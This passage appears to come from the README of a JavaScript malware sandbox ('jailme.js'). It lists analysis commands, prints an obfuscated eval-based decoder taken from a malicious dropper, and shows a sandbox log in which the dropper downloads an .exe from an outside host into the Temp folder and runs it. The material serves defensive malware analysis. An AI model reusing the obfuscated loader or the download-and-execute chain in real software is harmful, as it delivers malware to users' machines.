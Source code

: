     }
    

**Command:**

    node jailme.js --t404 malware/20171004/pdf.js -s malware/20171004/t404/ -o malware/20171004/t404/sandbox_dump_after.json > malware/20171004/t404/pdf.js.out

**Output:** [malware/20171004/t404/pdf.js.out](malware/20171004/t404/pdf.js.out)

## TBD ##

This piece is permuting a text array until it completes the Function body puzzle ... 2,1,3,5,4

    function qqfak() {
        var bwfgg=new Array("}R%","g."+""+"f","h){","e(p","++;","].su","JKX","PTC");
        return bwfgg[Math.floor(Math['rand'+new Array('om')[0]]()*bwfgg.length)];
    }
    function kdorj(hlgwz) {
        return (new Function("eaipe","pbllg","wblzm","var pbusw=eaipe.ma"+"tch(/\\S{5}/g),jatsj=\"\",
            msjdc=0;while(msjdc<pbusw.lengt"+qqfak()+"jatsj+=Strin"+qqfak()+"romCh"+"arC"+"od"+qqfak()+
            "ars"+"eI"+"nt(pbusw[msjdc"+qqfak()+"bstr(3,"+"2),1"+"6)^17);msjdc"+qqfak()+"}eval(jatsj);")(hlgwz,null,null));
    }

Then it performs a standard payload download and execution. Apparently source stil delivering the payload:

    14 Jan 13:51:54 - MSXML2.XMLHTTP[2721].open(GET,http://www.readheat.com/news/1243142.exe,false)
    14 Jan 13:51:56 - Scripting.FileSystemObject[2722].GetSpecialFolder(2) => C:\Users\User\AppData\Local\Temp\
    14 Jan 13:51:56 - ADODB_Stream[2723].content = (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$????????1???P???P???P??*_???P???P??OP??*_???P??s???P??.V???P??Rich?P??????????PE??L????c?W?????????????????b???????????3????????? ... (truncated)'
    14 Jan 13:51:56 - ADODB_Stream[2723].SaveToFile(C:\Users\User\AppData\Local\Temp\\ij0gv0atr.exe, 2)
    14 Jan 13:51:56 - WScript.Shell[2724].Run(C:\Users\User\AppData\Local\Temp\\ij0gv0atr.exe, undefined, undefined)

**malwr.com:** https://malwr.com/analysis/MzY3Y2U1YWMwMjY0NDRjZDgyOTFiYzY3YTVhNjI0ZTE/

**Source code:** malware/20161227/c0a73d4e21e60a370bbaa476f532a02df17e99e5be3389ff550d28c105d518cd.js

**Command:**

    node jailme.js -c ./config_wscript_only.json --down malware/20161227/c0a73d4e21e60a370bbaa476f532a02df17e99e5be3389ff550d28c105d518cd.js

**Output:** [malware/20161227/c0a73d4e21e60a370bbaa476f532a02df17e99e5be3389ff550d28c105d518cd.out](malware/20161227/c0a73d4e21e60a370bbaa476f532a02df17e99e5be3389ff550d28c105d518cd.out)


## Speed Detected Photo.js ##

One with 2nd stage obfuscated into a Powershell command:
